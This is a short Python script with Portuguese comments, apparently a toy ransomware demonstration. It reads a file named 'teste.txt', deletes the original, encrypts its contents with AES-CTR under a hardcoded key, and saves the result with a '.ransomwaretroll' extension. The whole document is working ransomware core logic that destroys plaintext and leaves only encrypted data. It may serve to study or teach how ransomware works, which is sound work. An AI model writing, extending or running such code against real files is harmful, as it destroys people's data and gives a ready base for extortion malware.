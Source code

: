 import os

import pyaes


## abrir o arquivo a ser criptografado

file_name = "teste.txt"

file = open(file_name, "rb")

file_data = file.read()

file.close()


## remover o arquivo

os.remove(file_name)


## chave de criptografia

key = b"testeransomwares"

aes = pyaes.AESModeOfOperationCTR(key)


## criptografar o arquivo

crypto_data = aes.encrypt(file_data)


## salvar o arquivo criptografado

new_file = file_name + ".ransomwaretroll"

new_file = open(f'{new_file}','wb')

new_file.write(crypto_data)

new_file.close()
